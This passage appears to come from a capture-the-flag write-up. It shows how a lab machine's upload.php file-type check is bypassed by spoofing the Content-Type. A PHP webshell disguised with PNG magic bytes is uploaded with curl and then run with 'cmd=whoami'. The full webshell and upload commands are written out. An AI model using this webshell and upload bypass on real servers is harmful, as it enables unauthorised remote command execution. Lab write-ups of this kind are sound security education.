 Next, I need the content type header to be of an image. This is easy,
since I set it:

> <div>
>
> <div>
>
>     4. Bypass the file type check by modifying the 'Content-Type' of the 'file' parameter to 'image/png' in the POST request,    and set the 'pupload' parameter to 'upload'.
>          7 if(isset($_POST['pupload'])){
>          8 if ((($_FILES["file"]["type"] == "image/gif")
>         11 || ($_FILES["file"]["type"] == "image/png")
>
> </div>
>
> </div>

It doesn't say anything here about it, but the script (and I will do)
has the webshell start with the [magic
bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) for a PNG
image to pass MIME filtering as well.

I can do all of this with `curl`. First, I'll create the webshell:



    root@kali# echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo shell_exec($_REQUEST["cmd"]); ?>' > shell.php.png 



Now, I'll use `curl` to upload it with the following arguments:

-   `-X POST` - sets the requests type to POST
-   Include the `?id=0xdf` at the end of the url; the webshell will be
    renamed to that id
-   `-F 'pupload=upload'` - first form field
-   `-F 'file=@shell.php.png'` - second form field, with the value being
    the contents of the file `shell.php.png`

Because the file I'm uploading has a `.png` extension, `curl` will
handle setting the content type header for me. Running this will return
nothing:



    root@kali# curl -X POST 'http://10.10.10.198:8080/upload.php?id=0xdf' -F 'pupload=upload' -F 'file=@shell.php.png'



But then I can trigger the webshell:



    root@kali# curl http://10.10.10.198:8080/upload/0xdf.php?cmd=whoami
    PNG

    buff\shaun

